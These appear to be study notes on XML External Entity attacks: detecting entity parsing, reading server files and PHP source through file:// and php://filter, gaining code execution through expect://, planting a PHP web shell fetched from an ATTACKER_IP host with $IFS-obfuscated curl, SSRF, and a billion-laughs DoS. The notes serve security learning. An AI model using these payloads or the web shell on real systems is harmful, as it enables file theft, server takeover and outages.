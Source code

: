 ### **1. Identifying XXE**

- Look for input fields that send **XML payloads**
- Intercept HTTP requests to check for XML body:
    - `Content-Type: application/xml`
    - Data structured with `<tags>`

- Test for XML parsing by defining **custom entities**:
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
- Replace a field value with `&company;` and check if it's resolved on response

---

### **2. Confirming XXE Vulnerability**

- If `&company;` is rendered as **"Inlane Freight"**, XML entities are being parsed
- Web app is likely **vulnerable to XXE**

---
### **3. Local File Disclosure**

- Use **external entities** to read server files:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

- Inject `&company;` in a response-reflected field (e.g. `<email>`)

#### **Base64 Wrappers for PHP Source Disclosure**

- Direct reading fails for non-XML files (e.g. `.php`)
- Use PHP wrapper:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
- Decode base64 from response to view source

---

### **4. Remote Code Execution via XXE**

#### **PHP expect:// wrapper**

- Requires PHP `expect` module
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://id">
]>
```

**Deploying a Web Shell**
```bash
# On attacker's machine
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP/shell.php'">
]>
```
- **$IFS** used instead of spaces to preserve XML format
- Access shell at `target/shell.php?cmd=id`

Note: Requires `expect` to be enabled, not default in modern PHP

---
### **5. SSRF & DOS Attacks via XXE**

#### **SSRF**

- Use `file://`, `http://`, or `ftp://` to access **internal services**
- Exploit local metadata endpoints or admin panels

#### **Denial of Service (Billion Laughs Attack)**
```xml
<!ENTITY a0 "LOL">
<!ENTITY a1 "&a0;&a0;..."> <!-- Nested entities -->
...
<!ENTITY a10 "&a9;&a9;...">
```
- Rapid recursive expansion **consumes memory**
- Mitigated by most modern XML parsers

---

### **6. Special Notes**

- Many XML-based systems _still allow XML input_ even if default is JSON
- Always test by changing `Content-Type` and supplying XML payload
- Works best on:
    - **Old XML parsers**
    - **Java / PHP / Python** apps with insecure configurations
- Not all files are readable (e.g., **binary files break XML format**)
